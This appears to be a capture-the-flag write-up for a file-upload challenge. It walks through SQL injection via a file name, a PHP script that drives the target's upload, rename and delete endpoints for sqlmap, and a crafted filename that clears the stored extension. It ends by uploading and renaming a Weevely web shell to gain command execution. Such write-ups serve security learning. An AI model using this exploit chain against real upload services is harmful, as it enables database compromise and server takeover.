 # Secure Upload Manager

Try to upload file with semicolon in a file name.

![](attachments/1.jpg)

Try to rename it.

![](attachments/2.jpg)

SQL Error

![](attachments/3.jpg)

It can SQL injection with filename.

Write PHP payload to upload image , rename image and delete image.

```
<?php

$oldname = $_POST["oldname"];
$url = "http://34.142.233.148/upload.php";

// I guess the file is in the same directory as this script
$file = __DIR__.'\test.png'; 

$headers = [
    'Content-Type: multipart/form-data',
    'User-Agent: '.$_SERVER['HTTP_USER_AGENT'],
];

$fields = [
    'upfile' => new CURLFile($file, 'image/png', $oldname.'.png')
];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_POSTFIELDS, $fields);
$result0 = curl_exec($ch);

$ch2 = curl_init();
curl_setopt($ch2, CURLOPT_URL,            "http://34.142.233.148/rename.php" );
curl_setopt($ch2, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch2, CURLOPT_POST,           1 );
curl_setopt($ch2, CURLOPT_POSTFIELDS,     "oldname=".urlencode($oldname)."&newname=lmn" ); 
curl_setopt($ch2, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 

$result = curl_exec($ch2);

echo $result;


$ch3 = curl_init();
curl_setopt($ch3, CURLOPT_URL,            "http://34.142.233.148/delete.php" );
curl_setopt($ch3, CURLOPT_RETURNTRANSFER, 1 );
curl_setopt($ch3, CURLOPT_POST,           1 );
curl_setopt($ch3, CURLOPT_POSTFIELDS,     "filename=lmn" ); 
curl_setopt($ch3, CURLOPT_HTTPHEADER,     array('Content-Type: application/x-www-form-urlencoded')); 
$result3 = curl_exec($ch3);
exit;
?>
```

Use SQL Map.

![](attachments/4.jpg)

Get DB Name.

![](attachments/5.jpg)

Get table name.

![](attachments/6.jpg)

Get column name.

![](attachments/7.jpg)

It has extension column.

The website rename the filename based on a data in database.

If I change extension column in database to "", you'll be able to rename a filetype.

I uploaded test3.jpg',extension='.jpg .

| filename               | extension |
| ---------------------- | --------- |
| test3.jpg',extension=' | jpg       |

I rename test3.jpg',extension=' (enter filename without extension in rename page) to aaa.jpg .

| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |

After that, I created PHP Shell with Weevely.

![](attachments/8.jpg)

Rename it to aaa.jpg and upload it.

![](attachments/9.jpg)

| filename | extension |
| -------- | --------- |
| aaa.jpg  |           |
| aaa      | jpg       |

Rename it to aaa.php .

![](attachments/10.jpg)

| filename | extension |
| -------- | --------- |
| aaa.php  |           |
| aaa      | jpg       |

Locate to /upload/aaa.php and connect it with weevely.

![](attachments/11.jpg)

Type env and you'll see a flag.

![](attachments/12.jpg)
